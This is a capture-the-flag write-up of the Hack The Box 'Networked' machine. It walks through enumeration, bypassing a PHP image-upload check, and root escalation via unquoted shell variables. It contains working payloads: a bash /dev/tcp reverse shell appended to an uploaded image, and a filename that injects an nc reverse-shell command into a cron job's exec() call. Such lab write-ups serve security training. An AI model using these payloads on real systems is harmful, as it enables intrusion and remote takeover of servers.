# Hack The Box: Networked machine write-up

This was an easy machine which focuses on a simple thing: performing good checks when writing code. It starts by exploiting a file upload and then the escalation is all around using quotes on commands (and how not using them could be fatal).

Let's dig in! The IP of the machine is ``10.10.10.146`` and, as always, I included it in my ``/etc/hosts`` file as `networked.htb`.

### Enumeration

I start by enumerating open ports to discover the services running in the machine. I fire up nmap:

*Result of nmap scan*

```bash
# Nmap 7.70 scan initiated Fri Aug 30 05:52:23 2019 as: nmap -p- -sV -sC -oN nmap/initial networked.htb
Nmap scan report for networked.htb (10.10.10.146)
Host is up (0.056s latency).
Not shown: 65532 filtered ports
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 22:75:d7:a7:4f:81:a7:af:52:66:e5:27:44:b1:01:5b (RSA)
|   256 2d:63:28:fc:a2:99:c7:d4:35:b9:45:9a:4b:38:f9:c8 (ECDSA)
|_  256 73:cd:a0:5b:84:10:7d:a7:1c:7c:61:1d:f5:54:cf:c4 (ED25519)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
443/tcp closed https

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Aug 30 05:54:59 2019 -- 1 IP address (1 host up) scanned in 155.70 seconds
```

Okay so not too much, just SSH and a web server over HTTP.

#### Port 80 enumeration

We come accross a simple static page which on the source code shows a hint about some gallery and upload.

*Initial webpage*



Thus, I decided to run a dirb scan checking for directories or files and found something interesting:

```bash
root@kali:~/Desktop/Networked# dirb http://networked.htb

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Aug 30 05:52:53 2019
URL_BASE: http://networked.htb/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://networked.htb/ ----
==> DIRECTORY: http://networked.htb/backup/
```

I extracted the tar file and got four php files:

*Extracted files*



#### Static analysis of the files

Below are the things that helped me move on, the information I got from each of the php files:

* `index.php`: just the simple source code we had in the main webpage.
* `photos.php`: I found that there is an `/uploads/` directory, which is where all images are stored. Also, upon visiting this endpoint we can see what files have been uploaded by our ip (to avoid spoilers) and the format they present: `10_10_12_249.jpg` (if we uploaded `test.jpg` and our ip was `10.10.12.249`).

*Data gathered from `photos.php`*





* `upload.php`: this script basically performs some (unsafe) checks to make sure the files are images. Below are the checks:

  * First they check if the file is empty, the file type (with a function from `lib.php`) and the filesize, which needs to be smaller than 60kb.

  ```php
  <?php
  if (!empty($_FILES["myFile"])) {
    $myFile = $_FILES["myFile"];

    if (!(check_file_type($_FILES["myFile"]) && filesize($_FILES['myFile']['tmp_name']) < 60000)) {
      echo '<pre>Invalid image file.</pre>';
      displayform();
    }
  ?>
  ```

  * Then the second check makes sure the uploaded file has one of the valid extensions.

  ```php
  <?php
  list ($foo,$ext) = getnameUpload($myFile["name"]);
    $validext = array('.jpg', '.png', '.gif', '.jpeg');
    $valid = false;
    foreach ($validext as $vext) {
      if (substr_compare($myFile["name"], $vext, -strlen($vext)) === 0) {
        $valid = true;
      }
    }

    if (!($valid)) {
      echo "<p>Invalid image file</p>";
      displayform();
      exit;
    }
  ?>
  ```

* `lib.php`: the most important fact from this script is the `check_file_type()` function, which only checks that the file has the correct magic bytes at the start:

```php
<?php
function file_mime_type($file) {
  $regexp = '/^([a-z\-]+\/[a-z0-9\-\.\+]+)(;\s.+)?$/';
  if (function_exists('finfo_file')) {
    $finfo = finfo_open(FILEINFO_MIME);
    if (is_resource($finfo)) // It is possible that a FALSE value is returned, if there is no magic MIME database file found on the system
    {
      $mime = @finfo_file($finfo, $file['tmp_name']);
      finfo_close($finfo);
      if (is_string($mime) && preg_match($regexp, $mime, $matches)) {
        $file_type = $matches[1];
        return $file_type;
      }
    }
  }
  if (function_exists('mime_content_type'))
  {
    $file_type = @mime_content_type($file['tmp_name']);
    if (strlen($file_type) > 0) // It's possible that mime_content_type() returns FALSE or an empty string
      {
      return $file_type;
      }
    }
  return $file['type'];
  }

  function check_file_type($file) {
    $mime_type = file_mime_type($file);
    if (strpos($mime_type, 'image/') === 0) {
        return true;
    } else {
        return false;
    }  
  }
  ?>
```

Okay so at this point I had a good idea of what to do next. By uploading a valid image called `test.php.jpg` with some php code appended at the end I could bypass the check for the extension and the valid image. Hopefully, the server would recognise the extension of the file as php code and run the appended script.

The commands I used were:

```bash
cp test.jpg test_good.php.jpg
echo "<?php phpinfo();?>" >> test_good.php.jpg
```

Then once the image was uploaded I opened it on the `/uploads` directory and saw the php information pop up!

*Achieving php RCE*



I modified the above command to get a shell:

```php
echo "<?php phpinfo(); system('bash -i >& /dev/tcp/10.10.12.249/1234 0>&1');?>" >> test_good.php.jpg
```

And voilà! We get a shell as user `apache`!

*Getting a low-privileged shell*



### Getting user

I inspected the files under the user directory, which is `guly`:

*Inspecting files on user home directory*



And found that the `crontab.guly` file runs the `check_attack.php` file every three minutes, which seems promising:

*`check_attack.php` contents*



Now the thing which will help me get user `guly` is this vulnerable line of code:

```php
<?php
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
?>
```

THe vulnerability lies on the fact that `$value` is the name of the file, which should be inserted on the command within quotes. This is because one could have a file named `; nc 10.10.12.249 1234 -c bash;#` that, when inserted on the command, would result in:

```php
<?php
exec("nohup /bin/rm -f $path; nc 10.10.12.249 1234 -c bash;# > /dev/null 2>&1 &");
?>
```

I tried it and got a shell as `guly` and was able to read the flag!

*Getting a shell as `guly`*



### Privilege escalation

I immediately run `sudo -l` to see if anything could be run as root and turns out there was a script! Not too much enumeration to be done on this one.

*`sudo -l` output*



*Contents of `changename.sh`*



I ran it and started fuzzing to discover that command execution was a possibility, as when the input is `ls /root/` the script throws an error: `/etc/sysconfig/network-scripts/ifcfg-guly: line 9: /root/: Is a directory`. And that is the same output I get whenever I type `/root/` in a terminal window:

*Testing to see if the outputs match*



With that in mind there are two ways to get a shell as root (that I thought of).

1. The first one was to write an executable reverse shell and then simply do `ls {path to executable}`, which would run it and on a different port would get me a shell as root.

2. The second one is way easier and it simply consisted of typing `whatever bash`. This will create a root shell after getting all the inputs.

*Getting the root shell*



In case you are wondering how this all worked, the flaw in the script was, once again, that quotes were not used on the following line:

```bash
echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
```

The variable `x` reads our inputs and so if there are no quotes bash interprets the contents as a command. That's why we could type "`whatever bash`" and get a shell, because `whatever` got assigned to `var` and then the bash command would get executed.

This is everything, I hope you enjoyed the writeup and learned the following lesson: use quotes with bash commands! If you liked it you can give me respect on hackthebox through the following link: <https://www.hackthebox.eu/home/users/profile/31531>. Until next time!

---

*Diego Bernal Adelantado*
